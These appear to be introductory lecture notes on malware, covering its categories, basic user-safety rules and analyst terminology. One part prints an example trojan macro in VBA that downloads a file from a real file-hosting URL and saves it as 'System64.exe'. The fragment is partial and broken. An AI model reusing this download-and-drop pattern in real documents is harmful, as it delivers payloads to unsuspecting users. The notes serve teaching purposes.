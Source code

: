 ### Week 1

The first lecture serves as an introduction to malware, a catch-all term for unwanted software running on a device. Malware includes software running on your machine as malicious as ransomware (software that encrypts the contents of your computer for the purposes of extorting you) to something more benign but annoying like adware (software which bombards the user with ads and pop-ups). Malware is primarily used for financial gain, information gathering, and/or as a method to attack companies or users. It can be employed by nearly anyone with access to the internet and some simple computer know-how, like criminal organizations, lone agents, or government entities. The need to prevent or resolve the issues caused by malware have led to the creation of companies and organizations devoted to anti-malware.


Anti-malware groups have developed methodologies for the purposes of detection, prevention, and, in some cases, destruction of malware. To deal with a malware threat, it is necessary to understand and categorize malware. There are commonly a few types of malware and they tend to fall into the following categories:
1. Virus - characterized by a pattern of spreading
2. Trojans - characterized by method of entry onto a user's machine.
3. Potentially Unwanted Program - catch-all term for other malware that don't follow either patterns

Although the prospect of viruses and trojans might be worrisome, it has been determined by the security community that the most common attack vector is through the user themselves. Following a few rules regarding computer security will go a long way to help prevent most attacks. These include, but are not limited to, the following:

1. Don't visit questionable sites.
2. Know where your files are from before opening them.
3. Don't use random USB sticks.
4. Don't access programs or mobile apps from unverifiable authors.

As an example, a trojan could have been hidden inside of a macro run as a result of opening an Excel file. It may have looked like this:
```
Sub DoWork()

Dim tmp As String, fName As String, Pos As Long, fPath As String

tmp = DownloadFile("http://ge.tt/api/1/files/8e8kZt72/0/blob?download")

'tmp = DownloadFile(rc4decrypt("YMe & chr(34)& lp52wsnV4"DyQw0DKMNIE_uZmPuzUL5b0WoVZ2r3E7f & chr(34)& jG713r1IgISh3hZD1a", "System64.exe"))

fName = "System64.exe
```

The security community has also devised a few terms in their work with malware. This includes the following:
1. white - a known clean file
2. black - a known dirty file
3. gray - a file which has neither been confirmed clean or dirty
4. sample - a copy of malware
5. goat - sacrificial system for working with malware
6. hash (ex: md5) - a signature that calculated the value of the file; used to id files, write code to detect; polymorphic files are a pain for this reason
7. honeypot - a vulnerable system that intentionally gets infected with viruses for evaluation
8. imphash - import hash, a hash calculated for viruses; this can be used to determine if the virus is part of the same "family" of viruses; if they use a similar import hash
9. dropper - the file that is used by a trojan


These are just some of the terms that are used.

